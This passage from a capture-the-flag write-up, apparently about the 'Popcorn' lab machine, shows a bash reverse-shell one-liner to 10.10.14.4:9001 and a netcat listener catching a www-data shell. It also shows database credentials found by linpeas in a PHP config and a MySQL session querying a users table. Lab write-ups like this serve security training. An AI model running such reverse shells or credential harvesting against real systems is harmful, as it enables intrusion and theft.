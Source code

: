 ```none
cmd=bash -c 'bash -i >& /dev/tcp/10.10.14.4/9001 0>&1'
```

A side note, this was the first time I changed my GET request to a POST request. This is possible, as the PHP payload isn't only for GET requests. I must say, using a POST request is much cleaner and simpler for trying different payloads. From here, we have a reverse shell as the `www-data` user.

```none
└─$ nc -lvnp 9001
listening on [any] 9001 ...
connect to [10.10.14.4] from (UNKNOWN) [10.10.10.6] 51583
bash: no job control in this shell
www-data@popcorn:/var/www/torrent/upload$ id
id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

Found the user flag in the `george` home directory

```none
www-data@popcorn:/home/george$ wc -c user.txt
wc -c user.txt
33 user.txt
```

## Privesc Rabbithole

Thought it was interesting to include some of the database password enumeration I did, just to have in my notes. Linpeas found the following database credentials.

```none
╔══════════╣ Searching passwords in config PHP files
   $dbpass = $CFG->dbPassword;
   $dbuser = $CFG->dbUserName;
   $CFG->dbPassword = "SuperSecret!!";   //db password
   $CFG->dbUserName = "torrent";    //db username
```

Given these, I logged into the database to look for more info. 

```none
www-data@popcorn:/home/george$ mysql -u torrent -p    
Enter password: 
Welcome to the MySQL monitor.  Commands end with ; or \g.
Your MySQL connection id is 65
Server version: 5.1.37-1ubuntu5.5 (Ubuntu)

Type 'help;' or '\h' for help. Type '\c' to clear the current input statement.

mysql>
```

I don't use MySQL regularly enough, so I always need to look up the syntax. My go to is this [MySQL Cheatsheet](https://gist.github.com/hofmannsven/9164408).

```
mysql> show databases;
...
mysql> use torrenthoster
...
mysql> show tables;
...
mysql> select * from users;
+----+----------+----------------------------------+-----------+----------------------+---------------------+---------------------+
| id | userName | password                         | privilege | email                | joined              | lastconnect         |
+----+----------+----------------------------------+-----------+----------------------+---------------------+---------------------+
```